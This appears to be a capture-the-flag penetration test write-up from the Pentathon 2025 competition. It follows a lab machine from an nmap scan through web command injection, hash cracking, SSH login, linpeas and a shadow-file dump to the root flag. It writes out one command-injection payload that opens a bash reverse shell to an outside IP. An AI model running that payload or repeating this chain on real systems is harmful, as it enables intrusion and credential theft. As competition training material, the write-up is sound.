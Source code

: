 <p align="center">NCIIPC-AICTE

<p align="center">Pentathon 2025

  

<p align="center">Vulnerability Assessment and Penetration Test Report

  

<p align="center">May 03, 2025

<p align="center">Name: Jay Shah

<p align="center">jayshah-551-SLI13</p>

  <br>

Running Nmap on the IP

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfyMz3LgAzRLfyyyEiYDJ3vOlrJVjE7MuE-6v6r_ikflLibn_MMemaBDdIxAVGUjYz5vEHgEAKMP9iMWR6QzWDeK7-YElEJ6Dije4MhUGtBsDyWw24dIYZjzjuVQUS8BWAcSuQc?key=iX2Q4IQw_jo7FDnLZh141RI6)

Website has this -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4Alkpds5ebTWS2j99KGiENSwjSAUXWjawl8tidQhWY2N5ZYIdNB8wsI18nMZoagDSib2AU-H-0RtH8i5ZLeEYbn2UbCLteeyUUtF79xIqvgM3c6l5yZM-b-8BQJebewT8To59?key=iX2Q4IQw_jo7FDnLZh141RI6)

I instantly figure that it is one of those cmd injection ones, and try -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcNy-B0rccRKtt-o90MafWcSvqfRkEobR0c2BnqHeegv0UQqC_h0aX6_HRKQwupm7GD_74QchubYB4VgDSGLRjFTomKpszm1yx5cemdns-bOgoH_HkPlswbomhd9Uomirp7MNB0TQ?key=iX2Q4IQw_jo7FDnLZh141RI6)

And -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfShaf_l7Dsr471D_SOVqV6mHTc_48nBmj0nJybEYU4lFy8HCf8Ck6SjDbPORxURKRBVq9L1HgbfBy704JpNCOPFLw0ptROJZVtC7CU05gx0wAhGq-L_LeC3CN2dvza0c5MpQNgHQ?key=iX2Q4IQw_jo7FDnLZh141RI6)

Ok this time I need to be the user to see the user flag -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYsurl2Y3DUep_KNl94E3OuLIyu-z_SRofmHPw5q3ivD_SnRdYXsKGbaZxMuDgKZnhWTpTht49e-9_kx25TcOgQnWSxe-DHxfjdChfElRiihaAM_kVFkr6v4UH-1CNCoF7Hrs6rg?key=iX2Q4IQw_jo7FDnLZh141RI6)

This payload works as a web shell -

127.0.0.1; bash -c 'bash -i >& /dev/tcp/192.168.230.132/9001 0>&1'

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcxRLdtdP7MLG0mv5OnZSLE4V3maBnpKpTl9KXbTmG4s23EiVcPPSAPJQPwLxDrp1s9q_AHwtpVx2nNTxK-gCaLYm-Q3sCYIzDMXoZSpgXQ7f8PyfVeBmKzSp-ZQVzbATfz8BvN3g?key=iX2Q4IQw_jo7FDnLZh141RI6)

We see a users.db which is interesting -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXebK7v67jmn-G__8rXtV9tBL_brWmfpDtLLrmbQvXW0JVjm9AtEtLyYZmbz9duIRCsNPq6ec3_FNPA74YoaOJkrKNlSIEFOlnmQsWVnExlk-dOKPS5T0n5sg7j-sBb7advZCUdyew?key=iX2Q4IQw_jo7FDnLZh141RI6)

And the hash is cracked from Traboda's site -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcdHAIeCSihzIuMoQsFBJgwIdXKWYHIkNYZS_kOjBBrotCfBNLHcIq86yiqgwhffO6I9hO4EWNc4_1RoJJJ4z8qqCM2KaLDibqPF_Z0pBvTLogsUJPp22024YJVOb_T6W45i7276A?key=iX2Q4IQw_jo7FDnLZh141RI6)

Since we saw ssh running on port 22 in the nmap scan,

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXefTNGw6yu9mv4xqZD-1RPF5GNGG70CDo-RnDfVkO5C1IAyHmPmnwKprcS9DeksvbAgi76g6ch31LYwLGxHn5k1upnugcS1_ClfkveInja6x4APKPv5Vs72XCE00-7rMUExeod0Og?key=iX2Q4IQw_jo7FDnLZh141RI6)

And we get the user flag.txt -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd9c3ms98qRVYN1p4Uzrd-byhtMj4X4ppvFhvNIrMUJLzTfrHM6qOaIYpIvAH_tbM9aQE9Kg9t9jGBC2MoT2B-ZTp00EaHN_t-hXStJMNitRpww2YCzP88ZpZYpoS_tlyIbENF0?key=iX2Q4IQw_jo7FDnLZh141RI6)

Running linpeas on it gives a very interesting file -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdo5xNbpsKIWtCkKyno8FkHsGZJj7Fq8rBCT-RZ4-qeinTy9vTfKsGd9lj3rEXoRs5BkJORowRgcQQ1CNycR6K6jw23yPhYF-QTfkjjj-QhZMWvc13H0gXyO3tKk_xm2loqHMP0?key=iX2Q4IQw_jo7FDnLZh141RI6)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeaeGONvuq0BouO0HuwSbCYBN1PnNtEyHcXkmVT1n-jWsuJae_y1VzEMxUN-PRgOsx6AyydewxZMANulzMjFMNoXNSF0QPyhMPZBUc1t2I7MN3o-iOQkjYuso_--2ZMNbSyUFw17A?key=iX2Q4IQw_jo7FDnLZh141RI6)

And now we can create a backup of the shadow file and dump the root hash -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdYEJQftakxP8o2tV_LPI4bajT05U1F7_k-2i9WVpqBzsUU0L6UB_Uus6EBtf2o-YqNY21gu3Cr2VYhI8sZ9Xaf0K8AXO-PRE260v-wVjssAauH6BzgVIgR0-tQrCp2GEfxBikkSw?key=iX2Q4IQw_jo7FDnLZh141RI6)

And the same way we can get the root flag too -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeMOFa1ssQqPsvzWz8CcOmlE2B8GDcuTyOE4dVMx5RJ0xgjhkmw21RRcyDdzp-zK9pNsxoZWIPsaHiQSNaYY4ceQMMCJYHm2sTNdpJwJy8nrPF8wUPRY-yUOBCLQ3nfamPSAqHX?key=iX2Q4IQw_jo7FDnLZh141RI6)
